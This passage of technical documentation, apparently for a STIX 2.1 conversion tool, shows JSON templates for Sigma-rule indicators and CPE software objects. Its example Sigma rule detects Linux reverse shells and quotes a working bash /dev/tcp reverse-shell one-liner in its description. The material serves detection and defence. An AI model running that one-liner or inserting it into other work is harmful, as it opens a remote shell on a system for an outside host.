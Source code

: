 ```json
      "marking-definition--<TLP LEVEL SET>"
    ],
    "extensions": {
      "extension-definition--d83fce45-ef58-4c6c-a3f4-1fbc32e98c6e": {
        "extension_type": "property-extension",
        "warning_list_match": ["MISP WARNING LIST[0]"]
      }
    }
  }
```

The SIGMA RULE is encoded with JSON escapes before being written into the `pattern` value. e.g.

```
title: Linux Reverse Shell Indicator\r\nid: 83dcd9f6-9ca8-4af7-a16e-a1c7a6b51871\r\nstatus: experimental\r\ndescription: Detects a bash contecting to a remote IP address (often found when actors do something like 'bash -i >& \/dev\/tcp\/10.0.0.1\/4242 0>&1')\r\ndate: 2021\/10\/16\r\nauthor: Florian Roth\r\nlogsource:\r\n   product: linux\r\n   category: network_connection\r\ndetection:\r\n   selection:\r\n      Image|endswith: '\/bin\/bash'\r\n   filter:\r\n      DestinationIp: \r\n         - '127.0.0.1'\r\n         - '0.0.0.0'\r\n   condition: selection and not filter

```

The `<RULE NAME>` is defined by the value in the `title: ` field of the YAML rule.

### 20. CPE Observables (`software`)

* e.g. Full CPE URI `cpe:2.3:o:apple:mac_os_x:10.1.3:*:*:*:*:*:*:*`

CPEs can be identified as they start with `cpe:` and have 12 separators `:` in total.

CPEs are represented by [STIX Software SCOs (`"type": "software"`)](https://docs.oasis-open.org/cti/stix/v2.1/csprd01/stix-v2.1-csprd01.html#_Toc16070740)

#### STIX 2.1 software SCO

```json
{
    "type": "software",
    "spec_version": "2.1",
    "id": "software--<GENERATED BY STIX2 LIBRARY>",
    "name": "CPE: <EXTRACTED CPE VENDOR> <EXTRACTED CPE PRODUCT> <EXTRACTED CPE VERSION>",
    "cpe": "<EXTRACTED CPE OBSERVABLE VALUE>",  
    "version": "<EXTRACTED CPE VERSION>",
    "vendor": "<EXTRACTED CPE VENDOR>",
    "extensions": {
      "extension-definition--d83fce45-ef58-4c6c-a3f4-1fbc32e98c6e": {
        "extension_type": "property-extension",
        "warning_list_match": ["MISP WARNING LIST[0]"]
      }
    }
}
```

Note, `<EXTRACTED CPE VENDOR>` is the 4th value in the CPE string, `<EXTRACTED CPE PRODUCT>` is the 5th, and `<EXTRACTED CPE VERSION>` is 6th place.
